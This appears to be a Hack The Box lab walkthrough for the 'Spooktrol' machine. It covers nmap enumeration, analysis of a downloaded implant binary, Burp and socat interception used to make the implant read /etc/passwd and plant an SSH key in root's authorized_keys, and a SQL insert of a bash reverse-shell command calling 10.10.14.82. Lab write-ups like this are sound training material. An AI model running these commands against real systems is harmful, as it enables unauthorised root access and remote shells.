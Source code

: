 # Enumeration

## Nmap

```bash
sudo nmap -sV -sC -oA nmap/spooktrol 10.10.11.123

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp   open  http    uvicorn
| http-robots.txt: 1 disallowed entry 
|_/file_management/?file=implant
|_http-server-header: uvicorn
|_http-title: Site doesn't have a title (application/json).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     date: Wed, 27 Oct 2021 07:30:24 GMT
|     server: uvicorn
|     content-length: 22
|     content-type: application/json
|     Connection: close
|     {"detail":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 200 OK
|     date: Wed, 27 Oct 2021 07:30:10 GMT
|     server: uvicorn
|     content-length: 43
|     content-type: application/json
|     Connection: close
|     {"auth":"1f74a681bac81a97711d9316b1da1e68"}
|   HTTPOptions: 
|     HTTP/1.1 405 Method Not Allowed
|     date: Wed, 27 Oct 2021 07:30:17 GMT
|     server: uvicorn
|     content-length: 31
|     content-type: application/json
|     Connection: close
|_    {"detail":"Method Not Allowed"}
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 16:77:76:8a:65:a3:db:23:11:21:66:6e:e4:c3:f2:32 (RSA)
|   256 61:92:eb:7a:a9:14:d7:60:51:00:0c:44:21:a2:61:08 (ECDSA)
|_  256 75:c1:96:9c:69:aa:c8:74:ef:4f:72:bd:62:53:e9:4c (ED25519)

```


Three ports

- 22
- 80
- 2222

Downloading binary from `/file_management/?file=implant` as mentioned in robots.txt


```bash
wget 'http://10.10.11.123/file_management/?file=implant'
```

# Foothold

## Implant

On running the binary hit some error regarding `json`

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted image 20211028162957.png)



Running wireshark 

![](Pasted image 20211028164325.png)

we found the domain and need to add to `/etc/hosts` file.

Analyzing binary in ghidra 

![](Pasted image 20211028164739.png)

1st flag

![](Pasted image 20211028164912.png)

break at `0x402013` to get 1st flag using `gdb`.

`finish` the function then you will get the flag.

![](Pasted image 20211028165356.png)

# User

break at system in upload funtion in case 3

![](Pasted image 20211028165651.png)


inorder to acheive case three we can use burpsuite, first we need to interscept at locally the binnary 

change host file as following.

![](Pasted image 20211028165920.png)

Then add a second proxy at burp.

![](Pasted image 20211028170055.png)

Thirdly use socat to redirect port 8081 to port 80

`sudo socat TCP-LISTEN:80,fork,reuseaddr TCP:127.0.0.1:8081`

next use match and replace to change reponse task1 to task3

![](Pasted image 20211028170359.png)

its worked.

```bash

┌[parrot]─[17:03-28/10]─[/home/aju/Hackthebox/machines/spooktrol]
└╼aju$./implant
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application


```

It returned as an error beause it is looking for some like we need to find that using gdp. lets break at system.

![](Pasted image 20211028184718.png)

On examine at $rdi we can find that it is looking for file `whoami` lets replace that in burpsuite in `match and replace` into `/etc/passwd`


![](Pasted image 20211028184924.png)


we got replaced in next attempt.

![](Pasted image 20211028185028.png)


![](Pasted image 20211028185049.png)

Now lets change `/etc/passwd` to our ssh public key.


![](Pasted image 20211028185303.png)


upload the public to root's authorized_keys

![](Pasted image 20211028185412.png)

# Root

Logged in as root in docker.

![](Pasted image 20211028185502.png)

insert reverse into database task

`INSERT INTO tasks VALUES(13,'10a6dd5dde6094059db4d23d7710ae12',0,1,'bash -c "bash -i >& /dev/tcp/10.10.14.82/9001 0>&1"','',X'726f6f740a');`

![](Pasted image 20211028190236.png)

Got reverse shell as root

![](Pasted image 20211028190141.png)
